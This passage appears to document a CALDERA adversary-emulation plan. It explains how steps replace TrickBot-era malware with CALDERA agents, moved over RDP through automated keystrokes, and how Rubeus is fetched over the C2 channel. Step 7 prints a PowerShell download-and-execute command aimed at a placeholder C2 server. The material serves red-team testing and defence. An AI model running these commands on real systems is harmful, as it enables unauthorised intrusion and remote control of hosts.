 
## Step 4
- Lateral movement will be performed by running a CALDERA agent executable (.exe file) rather than the actual TrickBotClientExe.exe used
in evals.
    - The agent will act as the remote access implant and will replace the TrickBot-based malware from evals.
- To emulate the ingress tool transfer of the file over RDP, an agent running on an attacker-controlled machine will run `xfreerdp` to connect to
the initial target. `xdotool` will be used to send automated keystrokes to open cmd.exe, copy the agent executable over the shared drive, and execute it from cmd.
- Note that agent-server communication will be in unencrypted by default unless CALDERA is run using the `ssl` plugin and is listening on an HTTPS socket.
- Note that the agent will connect to the C2 server using the pre-configured port from the CALDERA configuration file (8888 by default), and so the port numbers may differ from what was used in evals.

## Step 5
- Instead of using the C standard library function `system()` to execute commands, the CALDERA agent will spawn a separate `cmd` process to run each command.

## Step 6
- Instead of using API calls, the agent will download rubeus.exe over the HTTP(S) C2 channel.
    - Due to CALDERA C2 infrastructure, the URL endpoint for the file download will be `/file/download` rather than `/camp1/...`
    - The HTTP request will be performed via HTTP POST rather than HTTP GET.
    - The HTTP request includes extra HTTP headers specifying the file name `file:rubeus.exe`, agent operation system `platform:windows`, and unique agent identifier.
    - Uses Golang's `net/http` library instead of `WinHttp` API calls
    - Due to predefined agent behavior, the `rubeus.exe` payload will be deleted automatically after the CALDERA agent performs this step.

## Step 7
- Lateral movement will be performed by running a CALDERA agent executable (.exe file) rather than the actual uxtheme.exe malware used
in evals.
    - The agent will act as the remote access implant and will replace the uxtheme.exe malware from evals.
- To emulate the ingress tool transfer of the file over RDP, an agent running on an attacker-controlled machine will run `xfreerdp` to connect to
the domain controller. `xdotool` will be used to send automated keystrokes over RDP to open an administrator PowerShell session, download a dynamically compiled agent executable from the CALDERA C2 server, and execute it via the PowerShell console.
    - Note that the PowerShell commands for the HTTP request were modified in the following ways:
        - Due to CALDERA's C2 infrastructure, the URL endpoint for the file download will be `/file/download` rather than `/getFile/uxtheme.exe`
        - The HTTP request will be performed via HTTP POST rather than HTTP GET
        - The HTTP request will include extra HTTP headers specifying the agent file name (`sandcat.go`), agent operating system (`windows`), and agent group (`wizard`)
        - the compiled agent binary will have a different hash but overall same functionality as previous agents
    - The new powershell commands to download and execute the binary look like the following:
```
$Body=@{file="sandcat.go";server="C2_SERVER_ADDRESS_AND_PORT";platform="windows";group="wizard"}
Invoke-WebRequest -Uri #{server}/file/download -OutFile $env:AppData\uxtheme.exe -Method POST -Headers $Body
& $env:AppData\uxtheme.exe
```
- While uxtheme.exe was not executed on the domain controller during the actual evaluation, the agent executable will be executed here to allow the remaining steps to be executed in an automated manner without having to send everything over automated RDP keystrokes.
